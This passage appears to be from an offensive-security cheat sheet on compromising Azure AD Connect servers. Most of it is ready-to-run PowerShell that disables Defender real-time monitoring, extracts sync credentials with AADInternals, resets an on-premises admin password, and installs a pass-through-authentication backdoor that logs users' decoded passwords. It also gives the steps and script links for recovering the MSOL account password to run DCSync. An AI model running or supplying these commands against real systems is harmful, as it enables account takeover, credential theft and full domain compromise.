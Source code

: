 ```powershell
PS > Set-MpPreference -DisableRealtimeMonitoring $true
PS > Copy-Item -ToSession $adcnct -Path C:\Tools\AADInternals.0.4.5.zip -Destination C:\Users\Administrator\Documents
PS > Expand-Archive C:\Users\Administrator\Documents\AADInternals.0.4.5.zip -DestinationPath C:\Users\Administrator\Documents\AADInternals
PS > Import-Module C:\Users\Administrator\Documents\AADInternals\AADInternals.psd1
PS > Get-AADIntSyncCredentials

# Get Token for SYNC account and reset on-prem admin password
PS > $passwd = ConvertToSecureString 'password' -AsPlainText -Force
PS > $creds = New-Object System.Management.Automation.PSCredential ("<Username>@<TenantName>.onmicrosoft.com", $passwd)
PS > GetAADIntAccessTokenForAADGraph -Credentials $creds –SaveToCache
PS > Get-AADIntUser -UserPrincipalName onpremadmin@defcorpsecure.onmicrosoft.com | select ImmutableId
PS > Set-AADIntUserPassword -SourceAnchor "<IMMUTABLE-ID>" -Password "Password" -Verbose
```

1. Check if PTA is installed : `Get-Command -Module PassthroughAuthPSModule`
2. Install a PTA Backdoor
    ```powershell
    PS AADInternals> Install-AADIntPTASpy
    PS AADInternals> Get-AADIntPTASpyLog -DecodePasswords
    ```


### Azure AD Connect - Password extraction

Credentials in AD Sync : C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf

Tool | Requires code execution on target | DLL dependencies | Requires MSSQL locally | Requires python locally
--- | --- | --- | --- | ---
ADSyncDecrypt | Yes | Yes | No | No
ADSyncGather | Yes | No | No | Yes
ADSyncQuery | No (network RPC calls only) | No | Yes | Yes


```powershell
git clone https://github.com/fox-it/adconnectdump
# DCSync with AD Sync account
```

### Azure AD Connect - MSOL Account's password and DCSync

You can perform **DCSync** attack using the MSOL account.

Requirements:
  * Compromise a server with Azure AD Connect service
  * Access to ADSyncAdmins or local Administrators groups

Use the script **azuread_decrypt_msol.ps1** from @xpn to recover the decrypted password for the MSOL account:
* `azuread_decrypt_msol.ps1`: AD Connect Sync Credential Extract POC https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545
* `azuread_decrypt_msol_v2.ps1`: Updated method of dumping the MSOL service account (which allows a DCSync) used by Azure AD Connect Sync https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c
